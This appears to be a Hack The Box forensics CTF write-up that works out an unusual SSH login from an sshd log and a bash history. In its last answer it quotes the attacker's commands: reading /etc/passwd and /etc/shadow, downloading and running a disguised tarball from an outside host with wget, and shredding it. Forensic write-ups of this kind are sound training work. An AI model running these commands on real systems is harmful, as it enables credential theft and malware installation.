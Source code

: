 ```yaml
---
layout: post
title:  "An Unsual Sighting"
date:   2025-04-07 12:00:00 -0400
categories: HTB-challenge forensics very-easy
tags: HTB CTF writeup log 
---
```


### SOLUTION
We have 2 files to analyze: `bash_history.txt` and  `sshd.log`

**Q1: What is the IP Address and Port of the SSH Server (IP:PORT)**

Looking at `sshd.log` we can see this:

`[2024-01-28 15:24:23] Connection from 100.72.1.95 port 47721 on 100.107.36.130 port 2221 rdomain`

We get the answer
```
100.107.36.130:2221 
```

**Q2: What time is the first successful Login**

Search for `Accepted` and we get:

`[2024-02-13 11:29:50] Accepted password for root from 100.81.51.199 port 63172 ssh2`
```
2024-02-13 11:29:50
```

**Q3: What is the time of the unusual Login**

We can notice that all of the accepted IP addresses start with `100.` or higher. But there is only 1 different.

`[2024-02-19 04:00:14] Connection from 2.67.182.119 port 60071 on 100.107.36.130 port 2221 rdomain`

```
2024-02-19 04:00:14
```

**Q4: What is the Fingerprint of the attacker's public key**     

Looking at that IP address and its `SHA256`

```
OPkBSs6okUKraq8pYo4XwwBg55QSo210F09FCe1-yj4
```

**Q5: What is the first command the attacker executed after logging in**                                                                                                               

Now look at `bash_history.txt` file, search for unusual login time and we get the answer.

```
whoami
```

**Q6: What is the final command the attacker executed before logging out**                                                                                                                 
By looking at the range of timestamp, we can guess the answer.

```
[2024-02-16 14:40:47] python ./server.py --tests
[2024-02-19 04:00:18] whoami
[2024-02-19 04:00:20] uname -a
[2024-02-19 04:00:40] cat /etc/passwd
[2024-02-19 04:01:01] cat /etc/shadow
[2024-02-19 04:01:15] ps faux
[2024-02-19 04:02:27] wget https://gnu-packages.com/prebuilts/iproute2/latest.tar.gz -O /tmp/latest_iproute.tar.gz
[2024-02-19 04:10:02] tar xvf latest.tar.gz
[2024-02-19 04:12:02] shred -zu latest.tar.gz
[2024-02-19 04:14:02] ./setup
[2024-02-20 11:11:14] nvim server.py

```                                                                                                               
